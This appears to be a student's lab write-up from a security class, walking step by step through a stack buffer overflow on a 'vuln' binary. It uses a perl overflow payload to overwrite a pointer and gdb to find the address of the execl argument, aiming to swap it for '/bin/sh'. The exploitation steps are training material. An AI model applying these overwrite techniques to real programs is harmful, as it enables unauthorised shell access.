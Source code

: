 ### Step by step :walking:
**1. Overwriting p** This is quite simple, we have done it plenty of time before, we can simply run the program with a string of more than 30 caracters.
```console
$ ./vuln `perl -e 'print "\x90"x30 . "\x42"x4'` BBBB
p=bffff2fe       -- before 1st strcpy
p=42424242       -- after 1st  strcpy
Segmentation fault
```
Of course we get a *Segmentation fault* as we try to write to the address `0x42424242` with our second *strncpy*, which is probably not a writable one.

**2. Execl arguments**  The final goal will be to change the argument passed to *execl*, to give it a command that would open a shell (`/bin/sh`).  To do this, we need to know where is this argument stored in memory.  
> From here I am not very sure of what I'm doing, there might be better way of proceeding.  

First we need to know what we are looking for, in memory the initial first argument won't be presented in convenient ascii characters but in heaxadecimal values, so let's check what those values would be (you can use any online coverter for this):
```
back_to_vul --> 62 61 63 6b 5f 74 6f 5f 76 75 6c 0d 0a
```
In gdb, we can run the file one time to fix the addresses, then disass the main function.
```console
$ (gdb) run aaa bbb
Starting program: /home/admin/SecurityClass/Tutorial-06/6.2/vuln aaa bbb
...
$ (gdb) disass main
Dump of assembler code for function main:
   ...
   0x00401290 <+45>:    push   $0x0
   0x00401292 <+47>:    lea    -0x1fa9(%ebx),%eax
   0x00401298 <+53>:    push   %eax
   0x00401299 <+54>:    lea    -0x1fa8(%ebx),%eax
   0x0040129f <+60>:    push   %eax
   0x004012a0 <+61>:    call   0x401080 <execl@plt>
   ...    
End of assembler dump.
```
We can see here the three arguments of *execl* being pushed to the stack before the call of the function, the last one being the first argument of the function (the one we have interest in).  To see what is the value pushed on the stack, we can add a breakpoint just after this last push, and see what is the value of `eax` at this moment.  By printing the content of the memory at this address, we should then find the string "back_to_vul" (in hexadecimal of course).
```console
$ (gdb) b *0x40129f
Breakpoint 1 at 0x40129f: file vuln.c, line 23.
$ (gdb) run aaa bbb
Starting program: /home/admin/SecurityClass/Tutorial-06/6.2/vuln aaa bbb
...
Breakpoint 1, 0x0040129f in main ()
$ (gdb) i r $eax
eax            0x402058            4202584
$ (gdb) x/4xw 0x402058
0x402058:       0x6b636162      0x5f6f745f      0x006c7576      0x20646e45
```
We found the address (`0x00402058`) of the string to overwrite!
